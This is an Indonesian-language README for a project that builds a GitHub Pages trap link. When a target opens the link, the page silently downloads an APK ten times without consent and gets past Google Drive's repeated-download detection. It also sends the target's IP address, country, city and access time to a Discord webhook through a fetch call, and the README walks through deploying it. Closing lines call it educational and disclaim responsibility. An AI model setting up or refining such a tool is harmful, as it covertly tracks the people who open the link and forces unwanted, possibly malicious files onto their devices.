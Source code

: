 # Auto Download & IP Tracker

## **Deskripsi**
Sistem ini secara otomatis mengunduh file APK sebanyak 10 kali saat target membuka link GitHub Pages. Selain itu, sistem akan melacak informasi target seperti IP, lokasi, dan waktu akses, lalu mengirimkan data tersebut ke Discord webhook.

## **Fitur**
- ✅ **Download APK 10× otomatis tanpa persetujuan pengguna**
- ✅ **Bypass deteksi download berulang di Google Drive**
- ✅ **Pelacakan IP, negara, kota, dan waktu akses**
- ✅ **Pengiriman data ke Discord webhook**
- ✅ **Proses berjalan di background tanpa pop-up yang mengganggu**

## **Cara Install & Deploy**

### **1. Fork & Clone Repository**
1. Fork repository ini ke akun GitHub kamu.
2. Clone repository ke lokal dengan perintah:
   ```bash
   git clone https://github.com/username/repository.git
   ```
   Ganti `username` dengan akun GitHub kamu dan `repository` dengan nama repo yang dibuat.

### **2. Edit Webhook di `index.html`**
1. Buka file `index.html`.
2. Temukan bagian berikut:
   ```js
   fetch("YOUR_WEBHOOK_URL", {
   ```
3. Ganti `YOUR_WEBHOOK_URL` dengan webhook Discord kamu.

### **3. Aktifkan GitHub Pages**
1. Masuk ke **Settings** → **Pages**.
2. Pilih **Branch: `main`** lalu klik **Save**.
3. Tunggu beberapa menit hingga link GitHub Pages aktif.
4. Link akan tersedia di format:
   ```
   https://username.github.io/repository/
   ```

## **Cara Kerja**
1. Target membuka link GitHub Pages.
2. Sistem otomatis mengunduh APK sebanyak 10 kali tanpa pop-up.
3. Data IP, negara, kota, dan waktu target dikirim ke Discord webhook.
4. Sistem menggunakan parameter acak untuk bypass deteksi download berulang.

## **Peringatan**
🚨 **Gunakan dengan bijak.** Penyalahgunaan sistem ini bisa melanggar hukum di beberapa negara. Developer tidak bertanggung jawab atas tindakan pengguna.

## **Lisensi**
Proyek ini dibuat hanya untuk tujuan edukasi. Semua tanggung jawab penggunaan ada pada pengguna.

